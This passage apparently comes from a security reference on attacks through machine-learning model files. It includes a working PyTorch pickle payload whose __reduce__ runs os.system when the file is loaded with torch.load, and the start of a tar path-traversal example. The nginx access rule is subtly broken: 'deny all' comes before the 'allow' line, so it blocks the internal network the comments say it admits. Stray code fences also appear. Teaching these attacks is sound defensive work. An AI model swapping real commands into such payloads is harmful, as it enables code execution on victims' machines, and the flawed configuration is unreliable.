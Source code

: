 ```
```nginx
location /api/v2/models/install {
    deny all;                       # block direct Internet access
    allow 10.0.0.0/8;               # only internal CI network can call it
}
```
```
## Example – crafting a malicious PyTorch model

- Create the model:

```python
# attacker_payload.py
import torch
import os

class MaliciousPayload:
    def __reduce__(self):
        # This code will be executed when unpickled (e.g., on model.load_state_dict)
        return (os.system, ("echo 'You have been hacked!' > /tmp/pwned.txt",))

# Create a fake model state dict with malicious content
malicious_state = {"fc.weight": MaliciousPayload()}

# Save the malicious state dict
torch.save(malicious_state, "malicious_state.pth")
```
```
- Load the model:

```python
# victim_load.py
import torch
import torch.nn as nn

class MyModel(nn.Module):
    def __init__(self):
        super().__init__()
        self.fc = nn.Linear(10, 1)

model = MyModel()

# ⚠️ This will trigger code execution from pickle inside the .pth file
model.load_state_dict(torch.load("malicious_state.pth", weights_only=False))

# /tmp/pwned.txt is created even if you get an error
```
```
## Models to Path Traversal

As commented in [[https://blog.huntr.com/pivoting-archive-slip-bugs-into-high-value-ai/ml-bounties|**this blog post**]], most models formats used by different AI frameworks are based on archives, usually `.zip`. Therefore, it might be possible to abuse these formats to perform path traversal attacks, allowing to read arbitrary files from the system where the model is loaded.

For example, with the following code you can create a model that will create a file in the `/tmp` directory when loaded:

```python
import tarfile

def escape(member):
    member.name = "../../tmp/hacked"     # break out of the extract dir
    return member

```